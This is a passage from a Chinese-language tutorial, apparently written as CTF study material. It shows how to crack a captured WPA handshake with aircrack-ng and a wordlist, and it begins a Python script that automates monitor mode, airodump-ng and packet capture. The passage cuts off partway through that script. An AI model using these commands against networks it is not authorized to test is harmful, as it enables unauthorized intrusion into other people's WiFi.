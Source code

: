 ![](https://gamernotitle.coding.net/p/assets/d/assets/git/raw/master/img/CTF-in-College-4/vmware-20220601-172022.png)

我们要用来破解的就是这个`captured-01.cap`，至于为什么有01，因为aircrack-ng怕你重名，所以在文件后面会加上数字

## 破解WIFI密码

使用命令`aircrack-ng {path} -w {dictionary}`来破解WIFI密码

`path` 是要破解的`cap`文件的后缀，我这里就应该填`./Packets/captured-01.cap`

`dictionary` 是要用来破解WIFI跑的字典（字典可以访问[代码浏览 - WIFI - 常用字典 - GamerNoTitle的团队 (coding.net)](https://gamernotitle.coding.net/p/Dictionarys/d/WIFI/git)获取）

组合起来，我这里输入命令（wpa.txt是我电脑里面已经存在的字典）

```bash
sudo aircrack-ng ./Packets/captured-01.cap -w wpa.txt
```

然后就会开始跑字典，跑完了就会显示了（我这里没有跑，因为太慢了）

## 一键化Python程序

需要记住这么多命令是不是很烦，这里我自己做了个Aircrack-ng的Python程序，来避免记这么多的程序。需要注意：这个程序只能在Linux上运行，并且需要以root权限运行（因为aircrack的大部分命令都需要root权限）

下面贴出程序，你也可以通过[CTF-Scripts/WlanCrack.py at master · GamerNoTitle/CTF-Scripts (github.com)](https://github.com/GamerNoTitle/CTF-Scripts/blob/master/WlanCrack.py)获取。本程序在字典方面跟我上面的那个coding的库进行了链接，如果没有提供字典的话可以从coding库下载

**需要安装的Python轮子：`requests` `tqdm` `pprint`**

```python
import os
import requests
from pprint import pformat
from tqdm import tqdm

PreviousOutput = None
output = None
ListeningMode = False
PreviousPath = None


def ShowNetCard():
    output = os.popen('ifconfig')
    data = output.read()
    print(data)
    return data


def StartListenerMode(netcard):
    os.system('airmon-ng check kill')
    os.system(f'airmon-ng start {netcard}')
    global ListeningMode
    ListeningMode = True
    print('Started')


def DumpStatus(NetCard):
    print('Double-press Q to exit. When you are ready, press enter.')
    input()
    os.system(f'airodump-ng {NetCard}')


def CapturePacket(channel: int, bssid: str, netcard: str, path='./captured'):
    print('Double-press Q to exit. When you are ready, press enter.')
```